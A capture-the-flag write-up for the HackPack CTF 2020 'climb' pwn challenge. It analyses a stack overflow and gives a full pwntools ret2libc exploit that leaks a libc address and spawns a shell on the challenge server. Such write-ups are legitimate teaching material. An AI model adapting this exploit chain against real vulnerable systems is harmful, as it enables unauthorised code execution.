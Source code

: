 ```yaml
---
layout: post
title: HackPack CTF 2020 - climb 
---
```


> Can you help me climb the rope?
>
> nc cha.hackpack.club 41702
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
climb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l,
for GNU/Linux 3.2.0, BuildID[sha1]=6e66cad4e6085cf682b27c0b31d7b00597422291, not stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Decompiling main reveals stack overflow vulnerability.

![decompiled_main decompiled_main][decompiled_main]

We can overwrite return address by sending `40 + 8` bytes. First we want to leak libc address. We can achieve this by leaking `puts@got`.

{% highlight python %}
payload = (
    b"A" * 40 +
    p64(0x400743) + # : pop rdi ; ret
    p64(exe.got["puts"]) +
    p64(exe.plt["puts"]) +
    p64(exe.functions["main"].address)
)
io.send(payload)
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.puts

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
{% endhighlight %}

Checking out leaked `puts` address on libc database shows that on the target system `libc6_2.27-3ubuntu1_amd64.so` is used.

Once we know what libc is used and what is `puts` address we can send final payload that exploits service.

{% highlight python %}
payload = (
    b"A" * 40 +
    p64(0x400744) +
    p64(0x400743) + # : pop rdi ; ret
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.send(payload)
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./climb')
libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")

host = args.HOST or 'cha.hackpack.club'
port = int(args.PORT or 41702)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())


io = start(env={"LD_PRELOAD": "./libc6_2.27-3ubuntu1_amd64.so"})
io.recvuntil("How will you respond? ")

payload = (
    b"A" * 40 +
    p64(0x400743) + # : pop rdi ; ret
    p64(exe.got["puts"]) +
    p64(exe.plt["puts"]) +
    p64(exe.functions["main"].address)
)
io.send(payload)
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.puts

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)

io.recvuntil("How will you respond? ")
payload = (
    b"A" * 40 +
    p64(0x400744) +
    p64(0x400743) + # : pop rdi ; ret
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.send(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/hackpackctf/climb
[decompiled_main]: {{site.baseurl}}/ctf/2020-04-29-hackpackctf-climb/decompiled_main.png
